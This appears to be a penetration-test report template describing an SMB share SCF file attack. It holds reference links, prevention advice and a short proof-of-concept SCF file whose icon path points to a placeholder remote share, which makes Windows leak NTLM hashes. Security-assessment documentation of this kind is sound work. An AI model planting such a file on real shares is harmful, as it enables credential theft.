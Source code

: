 



### Nmap Scan Results: 


### Initial Shell Vulnerability Exploited: 
- [SMB Share - SCF File Attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).
- [USING A SCF FILE TO GATHER HASHES](https://1337red.wordpress.com/using-a-scf-file-to-gather-hashes/).
- [Forced Authentication](https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication).

### Vulnerability Explanation: SMB file shares granting write permissions to unauthenticated users......

### Vulnerability Prevention: 
- Disallow write permissions in file shares for unauthenticated users
- Use of Kerberos Authentication and SMB Signing
- Ensure that NTLMv2 password hash is used instead of LanMan

### Severity: High

### Proof of Concept Code Here:
```
[Shell]
Command=2
IconFile=\\IP\share\test.ico
[Taskbar]
Command=ToggleDesktop
```

